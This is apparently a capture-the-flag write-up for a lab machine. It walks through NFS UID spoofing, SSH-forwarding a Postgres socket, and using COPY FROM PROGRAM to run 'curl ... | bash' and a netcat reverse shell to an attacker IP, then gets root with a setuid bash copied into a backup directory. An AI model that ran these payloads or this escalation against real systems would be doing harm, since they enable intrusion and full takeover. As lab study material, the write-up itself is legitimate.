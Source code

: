 # Enumeration

We find a nfs and mount it:
![](attachment/9e26fa56d86becadcfef2cf9970410ab.png)
Service folder is owner by 1337

So we can create a user called 1337
```
sudo groupadd -g 1337 1337
sudo useradd -u 1337 -g 1337 1337
```

Then accessing the folder:
![](attachment/fc072b1bfd2cd495ab0292cf09fe4d4d.png)

Now we have hash of password:
![](attachment/600c0be9f9947f1d9d2cef582445df15.png)

Now looking at .bash_history:
![](attachment/a9ce92643c9dacab532726d77f1cdbd1.png)

Now using ssh port forwarding:
```
ssh -N -L /tmp/.s.PGSQL.5432:/var/run/postgresql/.s.PGSQL.5432 service@slonik.vl
```

Now we can open postgres
```
 psql -h /tmp -U postgres
```

![](attachment/92b5e8d98dd005c193d8325de30a0a62.png)
Now using this [article](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
We can read files:
![](attachment/fc94b67852592fad6ded0a4abc6284aa.png)Using psql oneliner:
```
service=# DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'curl <http://10.8.1.208/x> | bash';DROP TABLE IF EXISTS cmd_exec
```

Using a reverse shell command:
```
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.208 443 >/tmp/f';
```

Now we can get ssh access:
![](attachment/3122eabd2b1f6edc07a9e5d7b22aec70.png)
Using pspy:
![](attachment/71d412160b56a41f8d39662b5721c8b3.png)
This /usr/bin/backup:
![](attachment/be577a65f61ae6f255233b3fe69b569c.png)
Now we found the folder that was being backed up at `/var/lib/postgresql/14/main`


Now copying bash files to the directory and giving setuid bit:
`cp /bin/bash mybash`
`chmod u+s mybash`

Now in `/opt/backups/current/` we have mybash and executing it we get a root shell:
![](attachment/1253232211f8474d7199ced7e8dc3ca3.png)
